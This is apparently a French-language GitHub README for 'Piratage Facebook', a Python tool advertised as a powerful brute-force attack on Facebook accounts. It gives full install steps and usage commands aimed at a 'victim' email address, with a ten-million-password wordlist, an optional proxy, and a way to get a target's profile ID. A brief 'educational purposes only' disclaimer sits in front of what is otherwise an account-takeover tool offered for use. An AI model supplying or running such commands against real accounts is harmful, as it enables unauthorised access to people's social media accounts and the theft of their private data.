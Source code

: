 Piratage Facebook

![PicsArt_22-06-08_16-34-50-148](https://user-images.githubusercontent.com/70594016/172602116-20012d77-f4c2-45a6-a5fb-391f683c0f05.png)
###### Puissante attaque par force brute sur Facebook.
***
### <p align="center">Commandes pour exécuter l'outil dans votre terminal Termux et Kali Linux
***

```bash
Remarque : Cet outil est conçu à des fins éducatives uniquement.
Veuillez ne pas endommager les appareils de qui que ce soit.
C'est pour juste testée, pas pour se venger.
 by rebelle masque 
```
## Langage utilisé pour créer cet outil :
- Python

## L'outil est compatible avec :
- Windows
- Kali Linux
- Android~Termux
- macOS
- Tous les systèmes d'exploitation utilisent Python (2.x, 3.x) avec les modules requis.

###### Installation
```bash
apt update && apt upgrade -y
```
```bash
apt install git -y
```
```bash
git clone https://github.com/RebelleMasque/Facebook_force-bruit-spy.git
```
```bash
cd Facebook_force-bruit-spy
```
```bash
bash setup
```
```bash
python facebook_hack.py
```

## Utilisation :
- **Vous pouvez utiliser Victim Adresse e-mail ou identifiant de profil Facebook** :

- **Force brute sur un compte Facebook sans proxy** :

* **Commande** : python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt

- **Force brute sur un compte Facebook avec proxy** :

* **Commande** : python facebook_hack.py -t victim@gmail.com -w 10MPASS.txt -p 144.217.101.245:3129

- **Obtenir l'identifiant de profil Facebook cible** :

* **Commande** : python facebook_hack.py -g https://www.facebook.com/exemple
